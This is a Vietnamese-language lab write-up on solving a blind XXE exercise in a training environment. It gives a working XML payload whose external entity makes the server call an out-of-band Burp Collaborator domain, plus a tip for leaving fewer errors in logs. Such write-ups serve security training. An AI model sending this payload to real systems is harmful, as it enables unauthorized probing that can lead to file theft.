






# Lab: Blind XXE with out-of-band interaction

## Mô tả lab

Ứng dụng có chức năng kiểm tra hàng tồn kho tồn tại lỗ hổng XXE, nhưng kết quả của XXE không được hiển thị lại trong response. Mục tiêu là thực hiện một DNS lookup tới Burp Collaborator.

## Các bước thực hiện

### Phân tích

Vẫn là trang web bán hàng với chức năng stock check như các lab trước:



Tuy nhiên khác biệt lộ ra khi gửi `productId` không hợp lệ: lần này giá trị `productId` **không** được echo lại trong response:



-> Blind XXE. Cần dùng một kênh out-of-band để nhận phản hồi.

### Khai thác

Nếu XML không được validate chặt mà vẫn dính XXE, có thể dùng một kênh khác để xác nhận. Ở đây chỉ cần một HTTP/DNS request tới Burp Collaborator là đủ. Lấy một payload domain từ Burp Collaborator, khai báo external entity trỏ tới nó và tham chiếu qua `productId`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://110j33jaxhhn8b4pmkkp4jhuvl1cp2dr.oastify.com">]> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```



Để tránh lỗi `400 Bad Request` (do giá trị `productId` không hợp lệ bị log lại), có thể đặt entity vào một tag mới tự nghĩ ra thay vì `productId`, cách này ít để lại lỗi hơn nhưng dễ thất bại nếu có schema validation:



Sau khi gửi request và poll Burp Collaborator client, sẽ thấy hit từ server:





Lab solved.
